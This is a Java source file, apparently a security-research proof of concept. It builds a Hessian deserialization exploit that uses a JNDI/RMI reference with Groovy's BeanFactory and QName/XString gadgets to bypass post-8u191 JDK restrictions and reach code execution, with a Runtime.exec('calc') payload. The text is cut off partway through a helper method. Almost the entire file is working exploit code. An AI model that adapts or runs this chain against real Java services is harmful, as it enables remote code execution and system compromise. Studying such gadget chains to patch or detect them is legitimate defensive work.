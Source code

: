 ```java
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.rmi.registry.LocateRegistry;
import java.util.HashMap;
import java.util.Hashtable;

//利用groovy依赖绕过JDK限制打JDK>8u191 JNDI
public class Hessian_HIVERSION_JNDI {
    public static void main(String[] args) throws Exception
    {
        LocateRegistry.createRegistry(1099);
        Hashtable<String, String> env = new Hashtable<>();
        env.put(Context.INITIAL_CONTEXT_FACTORY, "com.sun.jndi.rmi.registry.RegistryContextFactory");
        env.put(Context.PROVIDER_URL, "rmi://localhost:1099");
        ResourceRef ref = new ResourceRef("groovy.lang.GroovyClassLoader", null, "", "", true, "org.apache.naming.factory.BeanFactory", null);
        ref.add(new StringRefAddr("forceString", "x=parseClass"));
        ref.add(new StringRefAddr("x", "@groovy.transform.ASTTest(value={assert Runtime.getRuntime().exec(\"calc\")})\n" +
                "class Person{}"));
        InitialContext context = new InitialContext(env);
        context.bind("remoteImpl", ref);

        CannotProceedException cannotProceedException = new CannotProceedException();
        cannotProceedException.setResolvedObj(ref);
        Context continuationContext = DirectoryManager.getContinuationDirContext(cannotProceedException);
        QName qName = new QName(continuationContext,"_items1","_items2");
        XString xString = new XString("godown!");
        HashMap hashMap1 = new HashMap();
        HashMap hashMap2 = new HashMap();
        hashMap1.put("zZ", qName);
        hashMap1.put("yy", xString);
        hashMap2.put("zZ", xString);
        hashMap2.put("yy", qName);
        HashMap EvilMap = makeMap(hashMap1,hashMap2);
        serialize(EvilMap,"ser.bin");
        unserialize("ser.bin");
    }

    public static void serialize(Object obj, String path) throws IOException {
        FileOutputStream fos = new FileOutputStream(path);
        Hessian2Output ho = new Hessian2Output(fos);
        ho.getSerializerFactory().setAllowNonSerializable(true);
        ho.writeObject(obj);
        ho.close();
    }
    public static HashMap<Object, Object> makeMap(Object v1, Object v2 ) throws Exception {
        HashMap<Object, Object> map = new HashMap<>();
        setValue(map, "size", 2); //设置size为2，就代表着有两组
        Class<?> nodeC;
        try {
            nodeC = Class.forName("java.util.HashMap$Node");
        }
        catch ( ClassNotFoundException e ) {
            nodeC = Class.forName("java.util.HashMap$Entry");
        }
        Constructor<?> nodeCons = nodeC.getDeclaredConstructor(int.class, Object.class, Object.class, nodeC);
        nodeCons.setAccessible(true);

        Object tbl = Array.newInstance(nodeC, 2);
```